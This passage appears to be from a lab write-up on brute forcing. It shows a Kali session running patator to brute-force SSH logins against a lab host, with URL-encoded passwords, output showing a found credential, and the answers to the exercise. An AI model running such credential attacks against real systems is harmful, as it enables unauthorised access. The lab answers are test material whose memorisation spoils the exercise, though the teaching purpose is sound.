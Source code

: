 ```

For example, to encode every password in base64:
... host=10.0.0.1 user=admin password=_@@_FILE0_@@_ -e _@@_:b64

Please read the README inside for more examples and usage information.

┌──(kali㉿kali)-[~/Downloads]
└─$ nano found_passwords.txt
                                                    
┌──(kali㉿kali)-[~/Downloads]
└─$ cat found_passwords.txt 
rhymes
1qaz@WSX

┌──(kali㉿kali)-[~/Downloads]
└─$ patator ssh_login host=10.10.101.155 user=FILE0 password=_@@_FILE1_@@_ 0=userlist.txt 1=found_passwords.txt -x ignore:mesg='Authentication failed.' -x quit:mesg!='Authentication failed.'  -e _@@_:url              
/home/kali/.local/lib/python3.10/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
19:02:27 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.10.9 at 2023-02-05 19:02 EST
19:02:28 patator    INFO -                                                                              
19:02:28 patator    INFO - code  size    time | candidate                          |   num | mesg
19:02:28 patator    INFO - -----------------------------------------------------------------------------
19:03:30 patator    INFO - 0     39     0.569 | tommyboy1:1qaz@WSX                 |   162 | SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
19:03:33 patator    INFO - Hits/Done/Skip/Fail/Size: 1/163/0/0/146624, Avg: 2 r/s, Time: 0h 1m 5s
19:03:33 patator    INFO - To resume execution, pass --resume 16,17,16,16,17,17,16,16,16,16


```

What is the SSH username?

 *tommyboy1*

What is their password (the encoded version) ?

 *1qaz%40WSX*

What kind of encoding is this? 

 *url*


### Brute forcing - Hashes

Hash cracking? But I thought this was a brute force lab?

Well, it is - Hash cracking is really a form of brute forcing. This isn't a hash cracking / algorithm room, but the basics you need to know:  
